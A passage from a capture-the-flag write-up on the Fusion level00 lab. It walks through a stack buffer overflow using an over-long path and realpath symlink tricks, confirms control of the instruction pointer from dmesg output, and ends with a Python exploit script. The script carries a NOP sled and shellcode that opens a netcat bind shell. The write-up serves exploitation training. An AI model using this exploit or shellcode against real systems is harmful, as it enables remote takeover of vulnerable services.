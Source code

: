 Here's a path, oh it's longer than 128 bytes. **STRCPY NOOOOOO...**

![Crash]({{ site-url }}/assets/post_images/fusion_level00_Acrash.gif)

### Crashing the process - realpath link-resolution

`realpath` will resolve links, `../../` paths and other miscellaneous ways
of referring to a path into a absolute path.

If we create a file with a very very long filename and create a link
to that file, realpath will resolve the link. The program will then
copy the path into `resolved`, and overflow it.

~~~
$ touch `python "print 'A'*192"`
$ ln -s AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ./l00l
$ python -c "print 'GET /home/fusion/l00l HTTP/1.1'" | nc 127.0.0.1 20000
~~~

A real pain in the neck when experimenting with exploiting the process,
but a neat lil' trick.

Any of the methods above will produce a logging entry that can be seen when
running `dmesg`.

~~~
$ python -c "print 'GET ' + 'A'*137 + ' HTTP/1.1'" | nc 127.0.0.1 20000
[debug] buffer is at 0xbffff8f8 :-)
$ dmesg | tail -n 1
[12027.104103] level00[3176]: segfault at bf004135 ip 08049975 sp bffff8e0 error 4 in level00[8048000+3000]
~~~

#### Control over program counter

~~~
$ python -c "print 'GET '+'A'*139+'\xef\xbe\xad\xde'+' HTTP/1.1'" | nc 127.0.0.1 20000
[debug] buffer is at 0xbffff8f8 :-)
$ dmesg | tail -n 1
[12416.936119] level00[3221]: segfault at deadbeef ip deadbeef sp bffff8e0 error 15
~~~

Let's whip up some python to get this show on the road.

We're gonna need some shellcode, I found the one I used below
[here](https://www.exploit-db.com/exploits/37359/).

{% highlight python %}
# File: fusion00_solution.py
from struct import pack

NOPSLED="\x90"*12
SHELLCODE="\x31\xc0\x50\x68\x6e\x2f\x6e\x63\x68\x2f\x2f\x62\x69\x89\xe3\x50\x68\x35\x35\x35"+\
    "\x35\x68\x2d\x6c\x74\x70\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68"+\
    "\x2d\x65\x2f\x2f\x89\xe2\x50\x52\x51\x53\x89\xe7\xb0\x0b\x89\xf9\x31\xd2\xcd\x80"
OVERFLOW="A"*139
ADDR=pack('L', 0xbffff8f8+len(OVERFLOW)+20)
PAYLOAD="GET "+OVERFLOW+ADDR+" HTTP/1.1" + NOPSLED+SHELLCODE

print PAYLOAD
{% endhighlight %}
